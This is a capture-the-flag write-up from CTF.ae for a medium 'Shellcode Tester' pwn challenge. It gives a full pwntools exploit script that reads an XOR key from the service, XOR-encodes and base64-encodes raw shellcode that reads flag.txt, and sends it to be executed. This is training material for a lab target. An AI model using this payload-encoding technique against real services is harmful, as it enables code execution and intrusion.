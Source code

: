 <img src="https://raw.githubusercontent.com/CTFae/media/main/brand/YT-banner.jpg" />

### Challenge: Shellcode Tester
### Category: Pwn
### Difficulty: Medium
<hr>

#### Challenge Description
This challenge will need users to write scripts to extract the XOR key, craft some assembly that is XOR’ed with this key and send it over for execution.

#### Challenge Screenshot
![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/shellcode_tester-1.png)

#### Solution
The user can generate shellcode using any tool of their choosing (mfvenom, pwntools, online sources, etc) and simply XOR it and send it to the service. Upon code execution, they should grab `flag.txt` to capture the flag.

#### Exploit Screenshot
![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/shellcode_tester-2.png)


#### Exploit Script
```py
from pwn import *
import base64
# Connection variables
HOST = '127.0.0.1'
PORT = 1221

# For fun
splash()

# asm(shellcraft.cat('flag.txt'))
shellcode = b'j\x01\xfe\x0c$H\xb8flag.txtPj\x02XH\x89\xe71\xf6\x99\x0f\x05A\xba\xff\xff\xff\x7fH\x89\xc6j(Xj\x01_\x99\x0f\x05'

# Connect to the service
conn = remote(HOST, PORT)

# Receive and get the xor key
message = conn.recvuntil(' and executed', drop=True).decode('utf-8')
xor_key = int(message[message.find('0x'):],16)
info(f'Got XOR key: {hex(xor_key)}\n')

# XOR the payload
encoded_shellcode = []
for byte in shellcode:
    encoded_shellcode.append(ord(chr(byte)) ^ xor_key)
encoded_shellcode = bytes(encoded_shellcode)

# Base64 the payload
b64_shellcode = base64.b64encode(encoded_shellcode)
info(f"Encoded shellcode: {b64_shellcode}")

# Send the payload
conn.recvline()

# conn.send(b64_shellcode)
conn.send(b64_shellcode)

# Get output
result = conn.recvuntil('}').decode('utf-8')
flag = result[result.find('DPCTF'):]
success(f'Got flag: {flag}\n')

# Close the connection
conn.close()
```

<hr>

&copy; <a href="https://ctf.ae" target=_blank>CTF.ae</a>
